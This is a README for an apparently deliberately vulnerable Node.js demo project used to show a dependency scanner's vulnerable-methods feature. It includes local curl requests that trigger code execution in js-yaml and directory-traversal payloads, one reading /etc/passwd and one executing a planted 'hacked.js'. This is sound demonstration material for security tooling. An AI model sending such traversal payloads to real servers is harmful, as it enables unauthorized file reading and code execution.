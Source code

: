 # [:] Example node project with vulnerable methods

A node project to demonstrate srcclr agent's vulnerable methods feature for JavaScript

## Vulnerability 1 (SID-13642) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node index.js

```
The vulnerable method is called twice during the server startup, however another one needs to be trigged by issuing a
request to the endpoint by running the following command in another terminal to trigger the code execution vulnerability 
in `js-yaml:load`

```
curl --path-as-is 'http://127.0.0.1:8001/api/'
```

## Vulnerability 2 (SID-20301) Exploit

Use the following to trigger the directory traversal vulnerability (SID-20301)in `algo-httpserv:serve` 

```
curl --path-as-is 'http://127.0.0.1/8001/../../../../../../etc/passwd'
```


## Vulnerability 3 (SID-21402) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node larvitbase-api.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/../../../../hacked'
```
You can see the JavaScript file`hacked.js` is executed in the server side.

## Scan with SRCCLR Agent

```
brew tap srcclr/srcclr
brew install srcclr
srcclr activate
srcclr scan --url https://github.com/srcclr/example-javascript-vulnerable-methods
```
